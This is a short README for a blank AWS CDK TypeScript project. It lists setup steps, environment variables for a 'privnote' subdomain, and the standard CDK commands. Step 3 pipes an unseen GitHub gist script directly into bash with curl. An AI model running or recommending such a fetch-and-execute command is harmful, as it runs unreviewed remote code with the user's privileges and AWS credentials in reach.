 # Welcome to your CDK TypeScript project

1. install [nvm](https://github.com/nvm-sh/nvm)
2. `nvm install v22`
3. `curl -s https://gist.githubusercontent.com/vasylherman/01371ad969507c72302784a5cce69d93/raw | bash`
4. `npm i`
5. `asp ud_test` [doc](https://github.com/ohmyzsh/ohmyzsh/blob/master/plugins/aws/README.md)
6. `aws sts get-caller-identity | cat` [doc](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html)
7. `export CDK_HOSTED_ZONE_NAME=test.best-security.us && export CDK_SUBDOMAIN=privnote`
8. `cdk ls`

This is a blank project for CDK development with TypeScript.

The `cdk.json` file tells the CDK Toolkit how to execute your app.

## Useful commands

* `npm run build`   compile typescript to js
* `npm run watch`   watch for changes and compile
* `npm run test`    perform the jest unit tests
* `npx cdk deploy`  deploy this stack to your default AWS account/region
* `npx cdk diff`    compare deployed stack with current state
* `npx cdk synth`   emits the synthesized CloudFormation template
